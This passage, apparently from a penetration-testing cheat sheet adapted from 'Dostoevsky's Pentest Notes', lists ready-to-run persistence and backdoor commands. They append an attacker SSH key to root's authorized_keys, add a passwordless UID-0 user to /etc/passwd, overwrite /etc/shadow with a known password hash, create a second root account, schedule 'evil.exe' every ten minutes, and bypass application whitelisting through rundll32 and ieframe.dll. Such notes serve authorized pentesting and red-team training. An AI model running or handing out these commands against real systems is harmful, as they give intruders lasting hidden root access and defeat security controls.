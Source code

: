 ```bash
mkdir /root/.ssh 2>/dev/null; echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChKCUsFVWj1Nz8SiM01Zw/BOWcMNs2Zwz3MdT7leLU9/Un4mZ7vjco0ctsyh2swjphWr5WZG28BN90+tkyj3su23UzrlgEu3SaOjVgxhkx/Pnbvuua9Qs9gWbWyRxexaC1eDb0pKXHH2Msx+GlyjfDOngq8tR6tkU8u1S4lXKLejaptiz0q6P0CcR6hD42IYkqyuWTNrFdSGLtiPCBDZMZ/5g1cJsyR59n54IpV0b2muE3F7+NPQmLx57IxoPjYPNUbC6RPh/Saf7o/552iOcmVCdLQDR/9I+jdZIgrOpstqSiJooU9+JImlUtAkFxZ9SHvtRbFt47iH7Sh7LiefP5 root@kali' >> /root/.ssh/authorized_keys
```

### Creating Backdoor User w/o Password <a id="creating-backdoor-user-w-o-password"></a>

```bash
echo 'spotless::0:0:root:/root:/bin/bash' >> /etc/passwd​

# Rarely needed, but if you need to add a password to the previously created user by using useradd and passwd is not working. Pwd is "kali"
sed 's/!/\$6$o1\.HFMVM$a3hY6OPT\/DiQYy4koI6Z3\/sLiltsOcFoS5yCKhBBqQLH5K1QlHKL8\/6wJI6uF\/Q7mniOdq92v6yjzlVlXlxkT\./' /etc/shadow > /etc/s2; cat /etc/s2 > /etc/shadow; rm /etc/s2
```

### Creating Another root User <a id="creating-another-root-user"></a>

```bash
useradd -u0 -g0 -o -s /bin/bash -p `openssl passwd yourpass` rootuser
```

### Generating OpenSSL Password <a id="generating-openssl-password"></a>

```bash
openssl passwd -1 password # output $1$YKbEkrkZ$7Iy/M3exliD/yJfJVeTn5.
```

### Persistent Back Doors <a id="persistent-back-doors"></a>

```bash
# Launch evil.exe every 10 minutes
schtasks /create /sc minute /mo 10 /tn "TaskName" /tr C:\Windows\system32\evil.exe
```

## Code Execution / Application Whitelist Bypass <a id="code-execution-application-whitelist-bypass"></a>

### Ieframe.dll <a id="ieframe-dll"></a>

```bash
rundll32 c:\windows\system32\ieframe.dll,OpenURL c:\temp\test.url
```

This was inspired by and forked/adapted/updated from [Dostoevsky's Pentest Notes](https://github.com/dostoevskylabs/dostoevsky-pentest-notes).

